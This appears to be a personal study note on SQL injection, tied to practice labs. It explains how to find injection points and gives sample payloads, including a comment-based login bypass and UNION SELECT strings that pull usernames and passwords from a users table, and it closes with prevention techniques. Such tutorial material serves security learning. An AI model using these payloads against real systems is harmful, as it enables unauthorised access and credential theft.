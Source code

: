 #Red 
1. **Basic SQL Injection**
     - Identifying injection points
     - Basic UNION-based SQL Injection
2. **Error-based SQL Injection**
     - Leveraging database error messages
3. **Union-based SQL Injection**
     - Using the UNION operator to extract data   
4. **Blind SQL Injection**
     - Time-based Blind SQL Injection
     - Boolean-based Blind SQL Injection
5. **Out-of-Band SQL Injection**
     - Using [[DNS]] and HTTP requests to exfiltrate data
## Basic SQL Injection

### 1. Identifying Injection Points

#### Common Injection Points
1. **User Input Fields**:
   - Login forms
   - Search fields
   - Registration forms
   - Contact forms

2. **URL Parameters**:
   - Query strings (e.g., `example.com/products?id=1`)

3. **Cookies**:
   - User information stored in cookies

4. **HTTP Headers**:
   - User-Agent, Referer, etc.

5. **API Endpoints**:
   - [[API#REST API|RESTful]] and [[API#SOAP API|SOAP API]] parameters

#### Techniques to Identify Injection Points

1. **Single Quote Test**:
- Enter a single quote (`'`) in input fields or URL parameters.
- If an error occurs (e.g., `SQL syntax error`), it indicates a potential injection point.
- Example:
```
Login Username: admin'
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin'';
```

2. **Comment Injection Test**:
- Use SQL comments (`--`, `#`) to bypass parts of the query.
- Example:
```
Login Username: admin' -- 
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
```

1. **Error-Based Testing**:
- Inject known bad inputs and look for database error messages.
- Example:
```
Product ID: 1'
```
- SQL Query:
```sql
SELECT * FROM products WHERE id = 1';
```
- Possible error message:
```
SQL syntax error near '1''
```

#### Practice Labs
- [[5. SQLI Labs#**SQL Injection 1**|Lab]]: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### 2. Basic UNION-Based SQL Injection

#### Understanding the UNION Operator
- The `UNION` operator is used in SQL to combine the results of two or more SELECT statements.
- Each SELECT statement within the UNION must have the same number of columns in the result sets with similar data types.

#### Steps to Perform UNION-Based SQL Injection

1. **Determine the Number of Columns**:
- Inject a UNION SELECT statement with NULL values to identify the number of columns.
- Example:
```
Product ID: 1 UNION SELECT NULL, NULL, NULL
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT NULL, NULL, NULL;
```
- Adjust the number of `NULL` values until no error is returned.

2. **Find Data Types**:
- Replace NULL with values matching the data type of each column.
- Example:
```
Product ID: 1 UNION SELECT 1, 'string', NULL
```

1. **Extract Data**:
- Once the number of columns and their data types are known, extract data from another table.
- Example:
```
Product ID: 1 UNION SELECT username, password, NULL FROM users
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT username, password, NULL FROM users;
```

#### Example Injection
Given a vulnerable query:
```sql
SELECT id, name, price FROM products WHERE id = '1';
```
Performing a UNION-based injection:
```
Input: 1 UNION SELECT username, password, '0' FROM users
```
Injected Query:
```sql
SELECT id, name, price FROM products WHERE id = '1' UNION SELECT username, password, '0' FROM users;
```

#### Portswigger Labs


### Prevention Techniques
- **Parameterized Queries (Prepared Statements)**:
  - Ensures user inputs are treated as data, not executable code.
- **Stored Procedures**:
  - Encapsulate [[SQL]] code, reducing the risk of injection.
- **Input Validation**:
  - Validate and sanitize all user inputs.
- **Least Privilege**:
  - Limit database user privileges to reduce the impact of a successful injection.